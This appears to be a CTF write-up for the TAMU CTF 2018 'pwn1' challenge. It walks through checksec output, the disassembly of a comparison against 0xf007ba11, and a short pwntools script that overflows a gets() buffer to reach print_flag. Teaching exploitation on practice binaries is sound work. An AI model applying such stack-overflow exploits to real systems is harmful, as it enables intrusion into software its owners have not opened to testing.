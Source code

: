 ```yaml
---
title: TAMU CTF 2018
date: 2019-01-07 13:00:00
categories:
  - Pwn
  - linux
  - stack
tags:
  - CTF
  - stack
  - ROP
---
```


This school CTF had a good set of stack based challenges for beginners


## pwn1

`32-bit executable, dynamically linked, not stripped`

When you run the executable in the terminal, the program simple asks for an input and checks whether it is the secret it is looking for or not. 

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Going through the assembly code, we can see that see a gets() function. This gives us a chance to corrupt any stack address higher than the stack address where the gets() is to read into. We can also see a call to 'print_flag' function. This call instruction is executed only after a cmp instruction which compares [ebp-0xc] with '0xf007ba11'.

```nasm
0x0804861d <+107>:	cmp    DWORD PTR [ebp-0xc],0xf007ba11
0x08048624 <+114>:	jne    0x804862d <main+123>
0x08048626 <+116>:	call   0x804854b <print_flag>
```
The value in the memory location '0xc'(12) bytes lower than the memory location that is stored in ebp is compared with '0xf007ba11'. If the compare statement is true it sets the ZF, and jne instruction is not executed and 'print_flag' is called. 

#### EXPLOIT 
Here the gets() function allows us to write into any higher stack memory location. Hence we can write '0xf007ba11' in the required memory location to get the flag.
```python
from pwn import *

junk="a"*23
s=p32(0xf007ba11)

print junk + s
```
